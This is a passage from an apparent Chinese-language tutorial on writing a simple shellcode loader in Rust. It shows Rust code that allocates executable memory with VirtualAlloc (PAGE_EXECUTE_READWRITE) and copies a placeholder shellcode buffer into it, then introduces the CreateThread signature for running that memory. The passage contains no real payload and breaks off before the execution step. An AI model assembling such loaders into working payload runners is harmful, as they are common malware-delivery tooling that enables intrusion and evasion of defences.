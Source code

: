 ## 将 ShellCode 放进内存里

我们需要将 ShellCode 放到内存里，这里使用 `std::ptr::copy_nonoverlapping`

<img src="https://personal-knowledge-base-1314508256.cos.ap-shanghai.myqcloud.com/Asset/images/%E7%94%A8%20Rust%20%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84%20ShellCode%20%E5%8A%A0%E8%BD%BD%E5%99%A8-2.png" alt="用 Rust 写一个简单的 ShellCode 加载器-2" width="975" />

函数签名

```Rust
pub const unsafe fn copy_nonoverlapping<T>(
    src: *const T,
    dst: *mut T,
    count: usize
)
```

- `src`：源内存地址的裸指针
- `dst`：目标内存地址的裸指针
- `count`：要复制的元素数量。

> 注意：单位是泛型 T 的大小，而不是字节。例如，如果 T 是 `u32`（4 字节），count 是 10，那么总共会复制 10 \* 4 = 40 字节。在我们的 Shellcode 示例中，T 是 `u8`，所以 count 恰好等于字节数。

:::note
更多相关的内容，请参考：[copy_nonoverlapping in std::ptr - Rust](https://rustwiki.org/zh-CN/std/ptr/fn.copy_nonoverlapping.html)
:::

```Rust
use windows::Win32::System::Memory::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE, VirtualAlloc};

fn main() {
    let shellcode: &[u8] = b"shellcode";
    unsafe {
        let address = VirtualAlloc(
            None,
            shellcode.len(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        );

        std::ptr::copy_nonoverlapping(shellcode.as_ptr(), address as *mut u8, shellcode.len());
    }
}
```

## 创建线程执行

我们现在将 ShellCode 传进了内存里，我们现在需要执行这块儿内存。我们使用 `CreateThread` 这个 API

下面是它的函数签名

```Rust
pub unsafe fn CreateThread(
    lpthreadattributes: Option<*const SECURITY_ATTRIBUTES>,
    dwstacksize: usize,
    lpstartaddress: LPTHREAD_START_ROUTINE,
    lpparameter: Option<*const c_void>,
    dwcreationflags: THREAD_CREATION_FLAGS,
    lpthreadid: Option<*mut u32>,
) -> Result<HANDLE>
```
